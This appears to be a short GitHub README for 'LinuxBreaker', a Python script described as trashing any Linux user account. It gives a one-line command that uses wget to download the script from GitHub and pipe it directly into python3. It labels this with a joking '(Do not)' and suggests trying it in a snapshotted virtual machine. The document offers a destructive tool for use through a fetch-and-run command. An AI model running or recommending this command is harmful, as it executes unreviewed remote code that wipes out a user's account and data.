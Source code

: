 # LinuxBreaker
Trashes any user account in Linux*

\*Tested on various accounts on Ubuntu

(Do not) type the following command into bash:

    wget -O - https://raw.githubusercontent.com/User-2357/LinuxBreaker/main/linuxbreaker.py | python3

Try it out on a virtual machine. Make sure you have a recent snapshot.

    watch_linuxbreaker.py
requires pip and python3.
    linuxbreaker.py
only requires python3.

